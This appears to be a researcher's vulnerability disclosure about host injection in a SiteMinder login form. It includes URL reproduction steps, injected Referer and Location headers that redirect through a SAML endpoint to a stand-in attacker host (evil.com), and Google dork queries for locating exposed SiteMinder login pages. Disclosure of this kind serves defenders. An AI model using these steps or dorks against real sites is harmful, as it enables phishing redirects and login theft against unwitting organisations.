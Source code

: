 # Host Manipulation Vulnerability

# Overview of the Vulnerability
This vulnerability is capable of injecting contents into the login form in a hidden way (<input type='hidden'), it also adds two reference fields capable of redirecting when performing a successful login.
<br> 
<br> 
                                                                                                
# Step to reproduce:
- On url, change a fields /siteminderagent/forms/login.fcc?TYPE=&REALMOID=&GUID=&SMAUTHREASON=0&METHOD=GET&SMAGENTNAME=&TARGET=-SM- {INJECT DOMAIN}
-  After adding a domain to your request, a new form of hidden type will be created automatically (<input type='hidden') and the following parameters will also be added to the request header:
<br> 
<br> 

```php
Referer: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZ JogkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=925291bf-e9f8e8a5-e00625ea-bb9766fe-40f1431d-dd
```
 <br> 
 
```php
Location: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZJo gkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=769a0761-7f79e2f5-35c4ace4-b9cccadc-f6d42b71-f
```
<br> 

# Proof of Concept:
## First Redirect (Secure Redirect)
<img src="https://i.imgur.com/jQtU2XL.png">

<br> 
<br> 

## Second Redirect (After Inject)
<img src="https://i.imgur.com/WsVUBw8.png">
<br>  
<br> 

# Google Hacking:
intitle:"SiteMinder Password Services"

inurl:"/siteminderagent/forms/login.fcc"

Researchers:
Ricardo Martins - AKA r00t1ng and Kayky Vinicius - AKA Divsz
